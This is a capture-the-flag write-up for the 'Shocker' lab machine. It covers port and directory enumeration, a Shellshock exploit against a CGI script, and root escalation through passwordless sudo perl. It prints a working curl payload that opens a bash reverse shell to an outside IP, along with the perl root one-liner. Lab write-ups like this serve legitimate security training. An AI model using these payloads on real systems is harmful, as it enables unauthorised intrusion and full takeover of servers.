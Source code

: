 # Writeup: Shocker

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.94SVN scan initiated Wed Oct  1 09:04:55 2025 as: nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.129.235.72
Nmap scan report for 10.129.235.72
Host is up, received user-set (0.0071s latency).
Scanned at 2025-10-01 09:04:55 CDT for 15s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  1 09:05:10 2025 -- 1 IP address (1 host up) scanned in 15.09 seconds
```

On port 80 i found a webserver with a simple website only presenting a image file so i checked it for steganography but i did not found anything so i started a directory bruteforce wich gives me a `/cgi-bin/` directory with status code `403`. I started a second directory bruteforce on `/cgi-bin/` and found a `user.sh`.

```shell
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_words.txt -o gobuster_scan2 -t 30 -x sh

/user.sh              (Status: 200) [Size: 119]
```

At this point i was stucked so i have done some research about the shellshock vulnerability since the machine is themed around it. I found a way to check for the shellshock vulnerabilty with nmap on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html).

```
nmap shocker.htb -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-01 10:10 CDT
Nmap scan report for shocker.htb (10.129.235.72)
Host is up (0.0073s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

## 💥 Exploitation:

I used `curl` to exploit the shellshock vulnerability, which gives me back a reverse shell as user `shelly`, so i was able to grab the `user.txt` inside the home dirrectory.

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1' http://shocker.htb/cgi-bin/user.sh
```

## 🔓 Priviledge Escalation:

I have run the `sudo -l` command which gives me following output:

```shell
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Since shocky is allowed to run `sudo /usr/bin/perl` without providing a password i checked [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) how to exploit this to gain the `root.txt`.

```shell
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root && cat root.txt
```

## 💰 Loot:

```shell
# user.txt
7f7441247c5b5212db38e6**********

# root.txt
d52c0d664522e034d35978**********
```